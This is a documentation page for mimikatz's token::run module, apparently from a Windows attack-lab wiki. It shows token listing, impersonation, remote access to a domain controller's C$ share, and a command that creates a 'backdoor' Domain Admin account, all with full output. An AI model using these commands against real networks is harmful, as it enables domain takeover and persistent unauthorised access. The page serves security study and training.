 # run

`token::run` executes a new process with its token.

It has the following command line arguments:

* [`/id`](run.md#id): Token id to use for the new process
* [`/user`](run.md#user): Execute the process with the tokens of this user (instead of specifying the token ID)..
* [`/process`](run.md#process): The process to run. By default, the command `whoami` is executed.

## Preparation

List tokens of user to impersonate using the `token::list` module:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

## id

Run a command using a specified token by it's token ID. By default, the command `whoami` is executed:

```
mimikatz # token::run /id:457263
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

## user

Run a command using a specified token by it's username. The domain name must not be specified. By default, the command `whoami` is executed:

```
mimikatz # token::run /user:ffast
Token Id  : 457263
User name :
SID name  :

676     {0;000f0ac5} 3 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
winattacklab\ffast
```

## process

Other processes to spawn can be specified.

Example to access DC system drive:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c dir \\dc1\c$"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)
Primary
 Volume in drive \\dc1\c$ is Windows
 Volume Serial Number is 6A6C-0DE3

 Directory of \\dc1\c$

05/31/2023  06:30 AM    <DIR>          AzureData
05/31/2023  07:09 AM    <DIR>          ddns_server
05/31/2023  07:04 AM    <DIR>          inetpub
05/31/2023  06:46 AM    <DIR>          Packages
05/05/2023  11:31 AM    <DIR>          PerfLogs
05/31/2023  07:04 AM    <DIR>          Program Files
05/05/2023  12:26 PM    <DIR>          Program Files (x86)
05/31/2023  07:10 AM    <DIR>          terraform
05/31/2023  07:06 AM    <DIR>          Users
05/31/2023  07:05 AM    <DIR>          Windows
05/31/2023  06:33 AM    <DIR>          WindowsAzure
05/31/2023  07:07 AM    <DIR>          WSUS
               0 File(s)              0 bytes
              12 Dir(s)  15,918,473,216 bytes free
```

Add backdoor user:

```
mimikatz # token::run /id:1075487 /process:"cmd.exe /c net user backdoor Password.123 /add /domain && net group \"Domain Admins\" backdoor /add /domain && net user backdoor /domain"
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

The command completed successfully.

The request will be processed at a domain controller for domain winattacklab.local.

User name                    backdoor
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            6/20/2023 3:59:27 PM
Password expires             Never
Password changeable          6/20/2023 3:59:27 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *Domain Admins        *Domain Users
The command completed successfully.
```

## Demystifying the `kull_m_process_run_data` Error

Even as a local administrator, you can get the `kull_m_process_run_data` error:

```
mimikatz # token::run /id:1075487 /process:whoami.exe
Token Id  : 1075487
User name :
SID name  :

7156    {0;000f0ac5} 3 F 1075487        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
ERROR kull_m_process_run_data ; CreateProcessAsUser (0x00000522)
```

* The error message says that the `CreateProcessAsUser` function could not be executed.

The `token::run` command uses the function `CreateProceasAsUser` to create a new process in the security context of the specified token and requires the following privileges (source: [CreateProcessAsUserA function (processthreadsapi.h)](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessasusera)):

* `SeIncreaseQuotaPrivilege` privilege
* `SeAssignPrimaryTokenPrivilege` privilege (if the token is not assignable)

A local admin has the permission to get the `SeIncreaseQuotaPrivilege` privilege but not the `SeAssignPrimaryTokenPrivilege` privilege:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (3) c0000061
```

If you start mimikatz as `SYSTEM`, these privileges can be acquired:

```
mimikatz # privilege::name SeIncreaseQuotaPrivilege
Privilege '5' OK

mimikatz # privilege::name SeAssignPrimaryTokenPrivilege
Privilege '3' OK
```

Then, it's possible to use the `token::run` command and use stolen tokens as primary tokens.
